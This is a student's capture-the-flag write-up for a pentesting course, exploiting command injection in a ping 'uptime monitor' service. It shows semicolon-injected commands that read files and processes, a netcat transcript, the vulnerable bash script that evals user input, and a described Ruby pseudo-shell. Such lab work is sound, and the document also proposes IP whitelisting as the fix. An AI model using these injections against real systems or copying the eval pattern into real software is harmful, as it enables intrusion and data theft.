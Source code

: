# Writeup 2 - Pentesting

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas

## Assignment Writeup

### Part 1 (45 pts)

In summary, the steps taken were:

- Experimented with accepted input (ip address, eg, 157.230.179.99, 8.8.8.8, localhost)
- Experimented with the semicolon as it's a common command line injection technique (eg, ;ls, ;whoami)
- Tried ;ls home (led to flag)
- Tried ;ps aux (led to opt/container_startup.sh)

By starting with an IP address to see the response and then experimenting with different inputs (especially the semicolon, which delimits a command and starts a new one) and corresponding responses, it became apparent that the input was being run as part of the ping command. After some experiments the IP address was dropped and just the semicolon was typed and then the command. Some commands I tried were ls and whoami.

But it was odd at first because the connection would time out and it wasn't obvious that spaces were allowed in the input. I initially thought that only single keywords were allowed. So I tried various quote characters and double-dashes to get around to what I thought was a single-keyword limitation. Multiple commands were tried as well, separated by varying spaces, but with not much luck.

Fortunately I realized I could include spaces (which overcame a serious limitation) and was able to look in the /home directory and cat the flag.

  Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}

Just by habit I tried ps aux and saw a script running. Not knowing what it was (I wanted to know what was in opt first) I did a find opt and cat the script, which showed how the ping script. It appears that this is the script behind the service, somehow the echo commands are redirected to the remote client and the read is taken from the client.

~~~~
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"
~~~~

To address this vulnerability the input can be whitelisted as a valid ip address before running the ping command.

A brief transcript is included below:

~~~~
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ls           ;ls home

Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find home
home
home/flag.txt


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat home/flag.txt
Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}


Ncat: Broken pipe.
$
at: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1 10.5  0.0  18376  2892 ?        Ss   17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         7  0.0  0.0  18376  1832 ?        S    17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         9  0.0  0.0  34400  2860 ?        R    17:11   0:00 ps aux


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find opt
opt
opt/container_startup.sh


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat opt/c*
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"


Ncat: Broken pipe.
~~~~

### Part 2 (55 pts)

A short ruby script was written to leverage the command-line injection vulnerability.

The script prints a menu with options to drop into a shell and download files. The shell is implemented as a loop that reads the command the user wishes to run, and then opens a network connection, run it via command-line injection, and then present the output to the user. The download function is implemented similarly except the cat command is run and the resulting output is captured to a file.

The user's current directory had to be remembered between sessions of the shell because the session is essentially stateless. This was achieved by sending a cd command before the user's command.
